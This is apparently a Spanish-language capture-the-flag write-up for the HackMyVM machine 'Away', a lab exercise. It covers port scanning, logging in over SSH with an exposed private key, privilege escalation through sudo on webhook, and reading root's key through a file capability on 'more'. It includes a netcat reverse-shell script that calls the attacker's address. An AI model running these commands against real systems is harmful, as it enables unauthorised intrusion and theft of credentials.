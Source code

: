 ```yaml
---
layout: post
title: Away
date: 2022-12-25
author: BlackCage
categories: [HackMyVM]
tags: [HMV, SSH, Capabilities]
---
```


# Away [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.0.22 -oG allPorts`
- `nmap -sCV -p22,80 192.168.0.22 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Si entramos a la página vemos que nos dice un usuario (`tula`) seguido de una imagen randomizada. Al principio de la imagen vemos `[ED25519 256]`. Tras ver esto podemos pensar que se han generado unas llaves `SSH ED25519`, vamos a probar suerte y nos vamos a dirigir a `http://192.168.0.22/id_ed25519`. Bien! Se nos ha descargado la clave privada, también nos descargaremos la pública (`id_ed25519.pub`).

Si examinamos la clave pública veremos que al final pone: `My passphrase is: Theclockisticking`. Ya podemos entrar a la máquina por `SSH`.

Bien! Ya estamos en la máquina como `tula`!

### Subida de privilegios #1
Para poder ser `root` en la máquina necesitaremos primero pasar por `lula`. Para comenzar haremos `sudo -l` y veremos que podemos ejecutar como `lula` y sin contraseña el binario `webhook`:

```
Matching Defaults entries for tula on away:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tula may run the following commands on away:
    (lula) NOPASSWD: /usr/bin/webhook
```

Tras investigar un poco llegué al repositorio de [`WebHook`](https://github.com/adnanh/webhook), ahí podemos ver la documentación para saber cómo funciona.

Necesitamos un fichero `hook.json` donde será especificada la tarea a realizar. Me copié la plantilla que pone como ejemplo y la cambié un poco:

```
[
  {
    "id": "shell",
    "execute-command": "/home/tula/shell.sh",
    "command-working-directory": "/var/webhook"
  }
]
```

Antes de ejecutar la herramienta nos vamos a crear el fichero que especifiqué antes (`shell.sh`). Tiene `NC` instalado por lo que nos será más fácil:

```
#!/bin/bash

nc -e /bin/bash 192.168.0.19 4444
```

Ahora con `chmod +x shell.sh` le damos permisos de ejecución y estamos listos para seguir con la escalada de privilegios. Antes de nada nos pondremos en escucha con `NC` por el puerto que hayamos especificado antes, en mi caso el `4444`.

- `nc -nlvp 4444`

Para poder convertirnos en `lula` ejecutaremos `webhook` como dicho usuario:

- `sudo -u lula /usr/bin/webhook -verbose`

Se nos creará una `WebHook` que será accesible por el puerto `9000`, por lo que nos dirigimos a `http://192.168.0.22:9000/hooks/shell` y recibiremos la conexión.

Bien! Ya estamos como `lula` en la máquina víctima!

### Subida de privilegios #2
Ahora sí podemos convertirnos en `root`. Para conseguir dicho usuario me descargué [`LinPEAS`](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) y lo ejecuté. Tras unos segundos de espera vemos algo que nos llama la atención:

```
/usr/bin/more cap_dac_read_search=ep
```

Vemos que el binario tiene la capacidad de saltarse los permisos de lectura, adicionalmente podemos ver que pertenece a nuestro grupo con `ls -alh /usr/bin/more`:

```
-rwxrwx--- 1 root lula 59K ene 20 21:10 /usr/bin/more
```

Con esto sabido y recordando que la máquina utiliza pares de llaves `ED25519` podemos intentar leer la clave privada de `root` para conectarnos por `SSH`:

- `more /root/.ssh/id_ed25519 > root.id_ed25519`

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1
deducted
AwQ=
-----END OPENSSH PRIVATE KEY-----
```

Enhorabuena! Ya estamos en la máquina como `root`! Qué fácil!